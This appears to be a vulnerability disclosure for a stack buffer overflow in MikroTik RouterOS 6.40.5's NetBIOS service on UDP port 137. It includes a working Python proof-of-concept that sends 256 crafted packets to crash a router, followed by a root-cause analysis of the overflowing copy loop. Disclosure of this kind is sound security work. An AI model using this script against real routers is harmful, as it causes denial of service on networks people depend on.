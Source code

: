 

# Mikrotik 6.40.5 路由器 137 接口活动参数缓冲区溢出漏洞



## 1.Basic Information



- **Vulnerability Type**: Buffer Overflow

  **Description**: A buffer overflow vulnerability exists in the Mikrotik 6.40.5 firmware. The service on UDP port 137 is vulnerable, allowing remote attackers to send specially crafted packets that trigger a buffer overflow, resulting in a Denial of Service (DoS).

  **Affected Devices and Versions**:

  - Mikrotik RouterOS 6.40.5
  - Firmware version: Mikrotik 6.40.5



## 2. Proof of Concept (PoC)

The following Python script demonstrates the vulnerability:

```py
import socket
import time

def send_netbios_name_query(target_ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    ## last byte is the brute-force target
    base_packet = bytes.fromhex(
        "82280110000100000000000024434B41414141414141414141414141414141414141414141414141414141414141414141"
    )

    for i in range(0x01, 0x100):
        packet = base_packet + bytes([i])
        print((packet))
        print(f"[+] Sending packet with last byte: {i:#04x}")
        s.sendto(packet, (target_ip, 137))
        time.sleep(0.01)  # Optional: brief delay to reduce packet loss

    print("[*] All 256 NetBIOS queries sent.")
    s.close()

send_netbios_name_query("192.168.72.140")  # Replace with your RouterOS IP
```



## 3.Exploitation Principle

A buffer overflow occurs in the sub_8060430 function, causing the return address to be overwritten. The overflow happens within the sub_8054607 function. Upon examining the function, we can see that due to the presence of a while loop, the loop only exits when v2 becomes 0; otherwise, it continuously copies data from a2 to a1.
![image](https://github.com/user-attachments/assets/00ea7384-5e73-414e-90bc-d1306a48be00)
Tracing back, we find that the a3 argument is actually a stack address passed from the previous function, meaning it has limited space. However, in the sub_8054607 function, there is no restriction on the range of memory being written to, which results in a stack overflow.To trigger the sub_8054607 function, the UDP payload must be longer than 49 bytes. Although a subsequent qmemcpy limits the amount of data copied from the received UDP packet, the sub_8054607 function itself lacks such bounds checking.
![image](https://github.com/user-attachments/assets/0be3a610-bc57-4fff-8abf-876ee329e922)




